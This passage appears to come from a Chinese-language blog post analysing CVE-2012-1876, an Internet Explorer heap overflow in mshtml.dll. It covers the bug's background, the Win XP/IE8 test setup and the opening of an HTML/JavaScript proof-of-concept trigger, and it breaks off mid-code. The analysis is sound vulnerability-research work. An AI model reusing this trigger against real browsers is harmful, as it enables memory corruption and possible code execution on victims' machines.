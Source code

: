 ```yaml
---
layout: post
title:  "Cve-2012-1876（浏览器漏洞）"
date:   2019-5-20
categories: 《漏洞战争》cve-2010-2553（浏览器漏洞）
excerpt: 
---
```


* content
{:toc}





# **Cve-2012-1876**

## **漏洞介绍**

在2012年的Pwn2Own黑客大赛上，来自法国的安全团队Vupen利用两个0day漏洞攻下了Windows 7中的IE9，其中一个0day就是cve-2012-1876。该漏洞主要是因为mshtml.dll中的CImplAry::EnsureSizeWorker函数在创建堆的时候没有对span大小进行验证导致堆溢出。主要适用的范围为IE6-IE9。

## **测试环境**

操作系统：Win XP

IE版本： 8.0.6001.18702

## **分析过程**

《漏洞战争》书上的内容以及网上找的POC都是用的Win
7做的测试，但不知道为什么我用Win
7的时候，一模一样的步骤但还是失败了，IE直接在打开poc网站的时候就崩溃了，没有断在hpa产生的堆页上，尝试了很多次都不行，最后还是在Win
XP上可以实现。

POC代码：

	<html>

	<body>

	<table style="table-layout:fixed" >

	<col id="132" width="41" span="1" >&nbsp </col>

	</table>

	<script>

		function over_trigger() {

			var obj_col = document.getElementById("132");

			obj_col.width = "42765";
